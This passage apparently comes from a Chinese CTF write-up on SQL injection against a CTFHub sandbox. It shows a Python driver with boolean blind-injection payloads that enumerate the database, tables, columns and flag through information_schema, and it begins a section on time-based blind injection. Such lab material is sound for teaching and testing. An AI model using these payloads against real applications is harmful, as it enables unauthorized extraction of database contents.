 ```python


if __name__ == '__main__':
	#  换成自己的url
    url = "http://challenge-c6f8d9ca35b0c0b7.sandbox.ctfhub.com:10800/?id=1"
    # 注意修改payload中数据库名、表名等数据
    payloads_length = [
        # 0.数据库的长度
        " and length(database())>%s",
        # 1.表的数量
        " and (select count(table_name) from information_schema.tables where table_schema='sqli')>%s",
        # 2.开始猜解flag表的字段数
        " and (select count(column_name) from information_schema.columns where table_name='flag')>%s"
    ]
    payloads_Data = [
        # 0.数据库的名称：
        " and substr(database(),%d,1)='%s'",
        # 1.第一张表的名称：
        " and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1)='%s'",
        # 2.第二张表的名称：
        " and substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),%d,1)='%s'",
        # 3.字段名称
        " and substr((select column_name from information_schema.columns where table_name='flag'),%d,1)='%s'",
        # 4.flag：
        " and substr((select * from sqli.flag where id=1),%d,1)='%s'"
    ]
    names = [
        "数据库名",
        "表名1",
        "表名2",
        "字段名",
        "flag"
    ]
    conditions = 'query_error'
    conditions2 = 'query_success'
    name_length = 32  #数据长度
    #  想测什么换下下标就行
    injesql = InjeSql(url=url, payload_length=payloads_length[0], payload_Data=payloads_Data[4], name=names[3], name_length=name_length, conditions=conditions)
    # injesql.getLength() # 测长度
    injesql.getData()  # 测数据
```

**时间盲注**

时间盲注与Boolean注入的不同之处在于，时间注入是利用sleep()或benchmark()等函数让MYSQL的执行时间变长。时间盲注多与IF(expr1,expr2,expr3)结合使用，此if语句含义是：如果expr1是TRUE，则if()的返回值为expr2;否则返回值则为expr3。所以判断数据库库名长度的语句为:
